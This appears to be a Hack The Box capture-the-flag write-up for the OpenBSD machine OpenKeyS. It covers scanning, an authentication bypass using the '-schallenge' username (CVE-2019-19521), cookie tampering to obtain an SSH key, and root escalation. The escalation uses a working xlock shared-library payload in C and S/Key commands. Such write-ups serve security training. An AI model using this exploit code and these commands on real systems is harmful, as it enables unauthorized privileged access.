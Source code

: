 ```yaml
---
"title": "Hack The Box - OpenKeyS"
"date": 2020-12-12
"tags": ["OpenBSD", "medium"]
"keywords": ["OpenBSD", "medium"]
"categories": "HackTheBox"
"author": "Ghostbyt3"
"description": "Link: [https://www.hackthebox.eu/home/machines/profile/267](https://www.hackthebox.eu/home/machines/profile/267)"
"featured_image": "/img/htb-openkeys/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox - Writeup"
---
```



![Untitled](/img/htb-openkeys/Untitled.png)

Link: [https://www.hackthebox.eu/home/machines/profile/267](https://www.hackthebox.eu/home/machines/profile/267)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|firewall
Running (JUST GUESSING): OpenBSD 4.X|6.X|5.X|3.X (95%), FreeBSD 10.X|7.X (91%), Cisco AsyncOS 7.X (87%)
OS CPE: cpe:/o:openbsd:openbsd:4.4 cpe:/o:openbsd:openbsd:6 cpe:/o:openbsd:openbsd:5 cpe:/o:openbsd:openbsd:3 cpe:/o:freebsd:freebsd:10.0 cpe:/o:freebsd:freebsd:7.0 cpe:/h:cisco:ironport_c650 cpe:/o:cisco:asyncos:7.0.1
Aggressive OS guesses: OpenBSD 4.4 - 4.5 (95%), OpenBSD 6.0 - 6.1 (95%), OpenBSD 5.0 - 5.8 (95%), OpenBSD 4.1 (93%), OpenBSD 5.0 (93%), OpenBSD 4.2 (93%), OpenBSD 4.0 (93%), OpenBSD 3.8 - 4.7 (92%), OpenBSD 4.6 (92%), OpenBSD 4.7 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP Enumeration

Looking at the webpage it contains only a login page and nothing else, I tired like default credentials and SQLi. Nothing worked so let's run Gobuster.

![Untitled](/img/htb-openkeys/Untitled%201.png)

### GoBuster Scan Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.199
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/07/26 09:36:25 Starting gobuster
===============================================================
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/vendor (Status: 301)
===============================================================
2020/07/26 09:41:19 Finished
===============================================================
```

Checking all those dirs. and This one is really interesting.

![Untitled](/img/htb-openkeys/Untitled%202.png)

**SWP stands for SWaP file are located on a computer's hard drive, used by the virtual memory component of the computer to increase available memory.**

And we got something here. A username which is `Jennifer` and also a dir `../auth_helpers/check_auth` its going one directory which is probably before includes folder.

![Untitled](/img/htb-openkeys/Untitled%203.png)

And It downloading something

![Untitled](/img/htb-openkeys/Untitled%204.png)

Its a library file and  it says its OpenBSD

```bash
┌──(root🐺kali)-[~/htb/boxes/openkeys]
└─# file check_auth                        
check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped
```

With all those finding we got I just googled about openBSD libc and found this.

> [https://blog.firosolutions.com/exploits/cve-2019-19521-openbsd-libc-2019/](https://blog.firosolutions.com/exploits/cve-2019-19521-openbsd-libc-2019/)

It seems we can use `-schallenge` as username for authentication bypass so the only thing that come to my mind is the login page we found at first.

![Untitled](/img/htb-openkeys/Untitled%205.png)

So the username is `-schallenge` and password can be anything.

![Untitled](/img/htb-openkeys/Untitled%206.png)

And Im logged in as user `-schallenge` but its tell me there is no OpenSSH Key for this user, so we need to login as someother user:

![Untitled](/img/htb-openkeys/Untitled%207.png)

## Getting User Shell

I just captured the login request and tried some nothing worked.

![Untitled](/img/htb-openkeys/Untitled%208.png)

Then I decided to play with cookie, added a new one with Name as username and value as `jennifer` because thats the only username we got so far and so we can try for the ssh key.

![Untitled](/img/htb-openkeys/Untitled%209.png)

And After reload it logouts and I logged with the samecreds and I got the key.

![Untitled](/img/htb-openkeys/Untitled%2010.png)

I tried login with the key we got and it shows me Invalid Format. 

![Untitled](/img/htb-openkeys/Untitled%2011.png)

After some googling with that error. I came to know there is some possibility that it can be Putty Key

> [https://ma.ttias.be/convert-putty-private-key-to-openssh/](https://ma.ttias.be/convert-putty-private-key-to-openssh/)

I just converted it into normal format.

```bash
root@kali:~/CTF/HTB/Boxes/OpenKeyS# puttygen id_rsa -O private-openssh -o putty
```

And it worked 

![Untitled](/img/htb-openkeys/Untitled%2012.png)

## Privilege Escalation

While searching for the openBSD exploits in the beginning, I also found this.

> [https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html](https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html)

To Privilege Escalate to Root, First the user must be in `auth` group, in our case `jennifer` is not in `auth` group.

```bash
openkeys$ id
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
```

To add the user to `auth` group, the `xlock` vulnerability will allow to add user `jennifer` to the auth group.

![Untitled](/img/htb-openkeys/Untitled%2013.png)

Copied the C payload:

```c
#include [paths.h](paths.h)
#include [sys/types.h](sys/types.h)
#include [unistd.h](unistd.h)

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
```

Saved it as `swrast_dri.c` , then compile it and run it. 

```bash
openkeys$ vi swrast_dri.c                                               
openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c            
openkeys$ ls                                                 
swrast_dri.c   swrast_dri.so
openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[2] 44334
openkeys$ _XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root

openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
openkeys$ id
uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)
```

Now User Jennifer is in `auth` group.

If any user who is in `auth` group, we can follow this method to Privilege Escalate to Root:

![Untitled](/img/htb-openkeys/Untitled%2014.png)

Followed the same steps given in the POC, it will ask for password use the same in POC:

```bash
openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
openkeys$ chmod 0600 /etc/skey/root
openkeys$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password:
openkeys# id                                                                                                                            
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys# whoami
root
```

We own the box!